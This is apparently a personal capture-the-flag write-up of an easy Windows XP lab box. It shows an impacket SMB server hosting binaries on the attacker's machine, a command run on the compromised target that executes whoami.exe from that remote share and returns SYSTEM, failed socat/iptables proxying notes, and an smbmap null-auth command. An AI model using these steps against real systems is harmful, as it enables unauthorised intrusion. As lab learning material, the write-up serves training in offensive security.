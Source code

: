 
Box: Windows
Level: Easy

| **INDEX**                         |
| --------------------------------- |
| impacket-smbserver                |
| socat                             |
| iptables                          |
| smb exploit using ms08_067_netapi |


I was able to start the smbserver using the following command
```
$ impacket-smbserver a /usr/share/windows-resources/binaries/
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.4,1033)
[*] AUTHENTICATE_MESSAGE (\,LEGACY)
[*] User LEGACY\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[-] TreeConnectAndX not found WHOAMI.EXE
[-] TreeConnectAndX not found WHOAMI.EX
[*] Closing down connection (10.10.10.4,1033)
[*] Remaining connections []
[*] Incoming connection (10.10.10.4,1036)
[*] AUTHENTICATE_MESSAGE (\,LEGACY)
[*] User LEGACY\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa

```

This was to host whoami.exe on kali machine. On a target machine, I ran the following command to check the username. 

```
\\10.10.16.5\a\whoami.exe
\\10.10.16.5\a\whoami.exe
NT AUTHORITY\SYSTEM

```

This was the Windows XP box. Easy to pwn. I failed to fireout how to setup a proxy that i can monitor when the payload is being sent on port 445. I tried socat and iptables but it didn't workl

I setup an iptable rule to forward all the traffic received on port 4444 to my burp 8080 but didn't work. I also tried to use 
```
socat TCP-LISTEN:4444,fork TCP:127.0.0.1:8080
```

The above command listen on port 4444 and forward the traffic to burp on port 8080. Didn't work. 

##### SMB Null Auth
```
smbmap -H <IP>
```